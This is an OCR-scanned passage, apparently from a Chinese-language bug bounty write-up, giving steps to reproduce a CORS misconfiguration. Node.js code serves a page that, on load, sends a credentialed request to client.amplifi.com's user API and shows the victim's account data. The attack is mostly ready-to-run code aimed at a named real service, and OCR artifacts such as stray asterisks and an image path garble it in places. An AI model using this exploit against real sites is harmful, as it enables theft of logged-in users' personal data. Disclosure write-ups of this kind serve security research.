 ****2.安装 NodeJS，创建一个新目录，然后在其中保存以下文件:****

******serve . js******

```
****var http = require('http');
var url  = require('url');
var fs   = require('fs');
var port = 80

http.createServer(function(req, res) {
    if (req.url == '/cors-poc') {
        fs.readFile('cors.html', function(err, data) {
            res.writeHead(200, {'Content-Type':'text/html'});
            res.write(data);
            res.end();
        });
    } else {
        res.writeHead(200, {'Content-Type':'text/html'});
        res.write('never gonna give you up...');
        res.end();
    }
}).listen(port, '0.0.0.0');
console.log(`Serving on port ${port}`);****
```

****3.在同一目录中，保存以下内容:****

*******cors.html*******

```
****<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body onload="cors();">
<center>
cors proof-of-concept:<br><br>
<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "***https://******client.amplifi.com******/api/user/***", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>****
```
